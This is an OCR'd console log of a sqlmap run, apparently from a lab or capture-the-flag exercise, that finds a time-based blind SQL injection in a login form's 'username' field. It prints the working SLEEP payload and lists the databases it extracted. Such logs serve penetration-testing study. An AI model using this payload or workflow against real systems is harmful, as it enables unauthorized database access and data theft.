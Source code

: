 ```console
[16:48:13] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[16:48:13] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[16:48:13] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[16:48:14] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[16:48:14] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[16:48:14] [INFO] testing 'Generic inline queries'
[16:48:14] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[16:48:15] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[16:48:15] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[16:48:15] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[16:48:25] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:48:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:48:25] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:48:27] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[16:48:29] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[16:48:29] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=user' AND (SELECT 1210 FROM (SELECT(SLEEP(5)))PZbu) AND 'RwBG'='RwBG&password=pwd
---
[16:48:45] [INFO] the back-end DBMS is MySQL
[16:48:45] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[16:48:50] [INFO] fetching database names
[16:48:50] [INFO] fetching number of databases
[16:48:50] [INFO] retrieved: 
[16:49:00] [INFO] adjusting time delay to 2 seconds due to good response times
2
[16:49:00] [INFO] retrieved: information_schema
[16:51:09] [INFO] retrieved: appdb
available databases [2]:
[*] appdb
[*] information_schema

[16:51:47] [INFO] fetched data logged to text files under '/home/rago/.sqlmap/output/10.129.85.215 '
[16:51:47] [WARNING] you haven't updated sqlmap for more than 914 days!!!

[*] ending @ 16:51:47 /2022-10-04/

```
